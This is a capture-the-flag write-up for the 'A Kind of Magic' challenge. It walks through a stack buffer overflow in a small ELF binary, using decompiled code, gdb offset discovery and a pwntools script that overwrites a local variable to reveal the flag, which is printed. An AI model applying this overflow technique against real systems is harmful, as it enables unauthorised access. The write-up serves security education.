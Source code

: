 # A Kind of Magic

by ZeroDayTea

You're a magic man aren't you? Well can you show me? nc 143.198.184.186 5000

## Analysis

In this challenge we were given an ELF-64bit named `akindofmagic` with no canary, NX enabled, and PIE is also enabled.

```
$ file akindofmagic; checksec akindofmagic 
akindofmagic: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked,
interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=c2529d1bf8b4d4717af0728e24730b6a407050d9,
for GNU/Linux 3.2.0, not stripped
[*] '/home/kali/Documents/killerqueen/akindofmagic'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Let's try to run it

```
$ ./akindofmagic                          
Is this a kind of magic? What is your magic?: 
chicken nugget
You entered chicken nugget

Your magic is: 0
You need to challenge the doors of time
```

It seems that the program will print our input and there is `Your magic is: 0` which obviously kinda odd. Let's open the program using ida to see what the source code looks like.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 v3; // rbp
  __int64 v4; // rsi
  __int64 v5; // rdx
  __int64 v7; // [rsp-38h] [rbp-38h]
  unsigned int v8; // [rsp-Ch] [rbp-Ch]
  __int64 v9; // [rsp-8h] [rbp-8h]

  __asm { endbr64 }
  v9 = v3;
  v8 = 0;
  sub_1090("Is this a kind of magic? What is your magic?: ", argv, envp);
  sub_10D0(_bss_start);
  sub_10C0(&v7, 64LL, stdin);
  sub_10B0("You entered %s\n", &v7);
  v4 = v8;
  sub_10B0("Your magic is: %d\n", v8);
  sub_10D0(_bss_start);
  if ( v8 == 1337 )
  {
    sub_1090("Whoa we got a magic man here!", v4, v5);
    sub_10D0(_bss_start);
    sub_10A0("cat flag.txt");
  }
  else
  {
    sub_1090("You need to challenge the doors of time", v4, v5);
    sub_10D0(_bss_start);
  }
  return 0;
}
```

From the main function, it seems that we need to overflow the input and change the `v8` variable. Since the program will also print the value inside the `v8` variable, we could check if our overflow is reaching v8 or not.

First, we could use gdb to create a pattern.
```
$ gdb -q ./akindofmagic
Reading symbols from ./akindofmagic...
(No debugging symbols found in ./akindofmagic)
gdb-peda$ pattern create 80
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4A'
```

Next, run the program and send the pattern.
```
gdb-peda$ r
Starting program: /home/kali/Documents/killerqueen/akindofmagic 
Is this a kind of magic? What is your magic?: 
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4A
You entered AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AA
Your magic is: 1094796865
You need to challenge the doors of time

Program received signal SIGSEGV, Segmentation fault.
```

From the output above, we can determine which part of our pattern is hitting the `v8` variable.
```
gdb-peda$ pattern offset 1094796865
1094796865 found at offset: 44
```

Nice, we got the offset/padding. Now we need to make the `v8` variable turns into 1337 in integer or 0x539 in hexadecimal.

## Exploit
```python
from pwn import *

padding = 44 # offset from the input to variable v8
hexNum = 0x539 # the value that we need to overwrite to v8

host = "143.198.184.186"
port = 5000

s = connect(host, port)

# receiving the first line of the program output
print(s.recvline())

# generating the payload
payload = b""
payload += b"A"*padding
payload += p64(hexNum)

# send the payload to the program
s.sendline(payload)

# receiving the rest of the program output
print(s.recvall())

s.close()
```

Now all we need to do is just run the program
![](akindofmagic.png)

Flag: `flag{i_hope_its_still_cool_to_use_1337_for_no_reason}`
